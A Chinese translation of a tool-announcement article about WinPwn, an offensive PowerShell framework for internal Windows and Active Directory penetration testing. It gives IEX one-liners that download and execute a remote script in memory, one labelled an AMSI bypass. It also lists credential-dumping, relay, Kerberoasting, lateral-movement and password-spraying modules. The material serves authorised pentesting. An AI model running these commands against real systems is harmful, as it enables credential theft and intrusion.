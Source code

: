# WinPwn:内部 Windows 渗透测试/ AD 安全的自动化

> 原文：<https://kalilinuxtutorials.com/winpwn-automation-internal-windows-penetrationtest-ad-security/>

[![WinPwn : Automation for Internal Windows Penetrationtest / AD-Security](img//cee9da978eb89f971da41a285f5ac0c4.png "WinPwn : Automation for Internal Windows Penetrationtest / AD-Security")](https://1.bp.blogspot.com/-yvsdQiClmNE/XdYXxJ_17II/AAAAAAAADg8/kDYFbEShH1IRpvKqFUmEJTmvFynvrSgIgCLcBGAsYHQ/s1600/WinPwn%2B%25281%2529.png)

**WinPwn** 是内部 Windows 渗透测试/ AD-Security 的自动化。在过去的许多内部渗透测试中，由于缺少代理支持，我经常遇到现有 Powershell Recon / Exploitation 脚本的问题。

我经常一个接一个地运行相同的脚本来获取关于当前系统和/或域的信息。为了自动执行尽可能多的内部渗透测试流程(侦察和利用)以及代理原因

我用自动代理识别和集成编写了自己的脚本。该脚本大多基于其他知名的大型攻击性安全 Powershell 项目。它们通过 IEX 下载字符串加载到内存中。

欢迎任何建议、反馈、拉动请求和评论！

只需导入带有**或`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')`或**的模块

对于 AMSI 旁路，使用以下一行:`**iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/ObfusWinPwn.ps1')**`

如果你发现自己被困在一个没有互联网接入的 windows 系统上——完全没有问题，只需使用 Offline_Winpwn.ps1，所有的脚本和可执行文件都包括在内。

**也可阅读-[Jaeles:自动化 Web 应用测试的瑞士军刀](https://kalilinuxtutorials.com/jaeles-the-swiss-army-knife-web-application-testing/)**

导入后可用的功能:

*   `**WinPwn**` - >菜单选择攻击:
*   `**Inveigh**` - >在新的控制台窗口中执行 Inveigh，集成了会话管理(Invoke-TheHash)的 SMB-Relay 攻击
*   `**sessionGopher**` - >执行 Sessiongopher 向您询问参数
*   `**kittielocal**` - >
    *   模糊调用-Mimikatz 版本
    *   记忆中的安全卡茨
    *   使用 rundll32 技术转储 lsass
    *   下载并运行千层面
    *   转储浏览器凭据
    *   从记忆中提取有趣的信息
    *   过滤 Wifi 凭证
    *   转储山姆-文件 NTLM 哈希
*   `**localreconmodules**` - >
    *   收集已安装的软件、易受攻击的软件、共享、网络信息、组、权限等等
    *   检查典型的漏洞，如 SMB 签名、LLMNR 中毒、MITM6、WSUS
    *   检查 Powershell 事件日志中的凭据或其他敏感信息
    *   在注册表和文件系统中搜索密码
    *   查找敏感文件(配置文件、RDP 文件、keepass 数据库)
    *   搜索。本地系统上的. NET 二进制文件
    *   可选项:Get-computer details(Powersploit)和 PSRecon
*   `**domainreconmodules**` - >
    *   收集各种领域信息进行人工审查
    *   在描述字段中查找 AD 密码
    *   搜索潜在敏感域共享文件
    *   ACLAnalysis
    *   列举不受约束的委托系统/用户
    *   用于域系统的 MS17-10 扫描仪
    *   SQL Server 发现和审计功能(默认凭据、数据库中的密码等)
    *   对域控制器进行 MS-RPRN 检查
    *   使用 group 2 的组策略审计
    *   使用 ADRecon 在 CSV 文件(或 XLS，如果安装了 excel)中生成广告报告。
*   `**Privescmodules**` - >在内存中执行不同的特权脚本(加电 Allchecks，夏洛克，GPPPasswords)
*   `**latmov**` - >在域中搜索具有管理员访问权限的系统进行横向移动。Mass-Mimikatz 可在找到系统后使用
*   `**shareenumeration**` - >调用-文件查找器和调用-共享查找器(Powerview / Powersploit)
*   `**groupsearch**`->Get-domainpouserlocalgroupmapping-通过组策略映射(Powerview / Powersploit)查找您拥有管理员访问权限或 RDP 访问权限的系统
*   `**Kerberoasting**` - >在一个新窗口中执行 Invoke-Kerberos ast 并存储哈希以备以后破解
*   `**powerSQL**` - > SQL Server 发现，检查当前用户的访问，审计默认凭据+ UNCPath 注入攻击
*   `**Sharphound**` - >下载 Sharphound 并为 Bloodhound DB 收集信息
*   `**adidnswildcard**` - >创建活动目录集成的 DNS 通配符记录
*   `**MS17-10**` - >扫描域中活动的 windows 服务器或所有系统中的 MS17-10(永恒之蓝)漏洞
*   `**Sharpcradle**` - >将 C#文件从远程 web 服务器加载到 RAM
*   `**DomainPassSpray**` - >域名密码攻击，所有域用户一个密码

**免责声明**

未经双方事先同意，使用 WinPwn 攻击目标是非法的。最终用户有责任遵守所有适用的地方、州和联邦法律。开发人员不承担任何责任，也不对本程序造成的任何误用或损坏负责。仅用于教育目的。

[**Download**](https://github.com/S3cur3Th1sSh1t/WinPwn)